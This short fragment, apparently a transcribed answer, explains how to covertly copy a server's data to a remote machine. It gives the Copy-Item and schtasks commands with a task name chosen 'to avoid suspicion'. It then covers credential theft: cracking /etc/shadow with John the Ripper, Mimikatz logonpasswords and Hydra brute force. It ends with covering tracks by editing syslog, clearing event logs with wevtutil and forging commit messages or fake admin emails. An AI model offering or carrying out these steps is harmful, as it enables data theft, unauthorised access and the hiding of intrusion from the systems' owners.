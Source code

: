 Copy-Item -Path"C:\Server\Data" -Destination"\\YourRemoteServer\Backup" -Recurse

Schedule it with Task Scheduler:schtasks /create /tn"SystemBackup" /tr"powershell -File C:\Scripts\backup.ps1" /sc daily /st 03:00. Name it something boring to avoid suspicion.


Now, if you don’t have access yet, let’s get dirty. Try a quick credential dump. On Linux, check/etc/shadow if you’ve got root—useunshadow to crack hashes with John the Ripper. On Windows, fire up Mimikatz:sekurlsa::logonpasswords will spill plaintext creds. If you’re remote, exploit a weak SSH or RDP config—default ports and passwords are goldmines. Tools like Hydra can brute-force your way in.


To cover tracks, modify logs. On Linux, edit/var/log/syslog or uselogrotate to cycle them out. On Windows, clear event logs withwevtutil cl System. If you want the backup to look extra legit, forge a commit message in the server’s git repo or add a fake admin email about “scheduled maintenance.”
